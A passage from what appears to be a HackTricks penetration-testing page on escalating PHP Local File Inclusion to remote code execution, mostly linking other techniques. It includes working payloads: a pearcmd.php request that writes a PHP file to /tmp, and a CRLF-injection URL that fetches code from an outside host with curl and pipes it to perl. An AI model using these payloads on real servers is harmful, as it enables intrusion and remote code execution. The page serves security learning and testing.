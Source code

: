 If you found a **Local File Inclusion** and **Nginx** is running in front of PHP you might be able to obtain RCE with the following technique:

[LFI2RCE via Nginx temp files](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-nginx-temp-files)

## Via PHP\_SESSION\_UPLOAD\_PROGRESS <a href="#via-php_session_upload_progress" id="via-php_session_upload_progress"></a>

If you found a **Local File Inclusion** even if you **don't have a session** and `session.auto_start` is `Off`. If you provide the **`PHP_SESSION_UPLOAD_PROGRESS`** in **multipart POST** data, PHP will **enable the session for you**. You could abuse this to get RCE:

[LFI2RCE via PHP\_SESSION\_UPLOAD\_PROGRESS](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php\_session\_upload\_progress)

## Via temp file uploads in Windows <a href="#via-temp-file-uploads-in-windows" id="via-temp-file-uploads-in-windows"></a>

If you found a **Local File Inclusion** and and the server is running in **Windows** you might get RCE:

[LFI2RCE Via temp file uploads](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-temp-file-uploads)

## Via `pearcmd.php` + URL args <a href="#via-pearcmd.php--url-args" id="via-pearcmd.php--url-args"></a>

As [**explained in this post**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), the script `/usr/local/lib/phppearcmd.php` exists by default in php docker images. Moreover, it's possible to pass arguments to the script via the URL because it's indicated that if a URL param doesn't have an `=`, it should be used as an argument.

The following request create a file in `/tmp/hello.php` with the content `<?=phpinfo()?>`:

```
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
```

The following abuses a CRLF vuln to get RCE (from [**here**](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)):

```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```

## Via phpinfo() (file\_uploads = on) <a href="#via-phpinfo-file_uploads-on" id="via-phpinfo-file_uploads-on"></a>
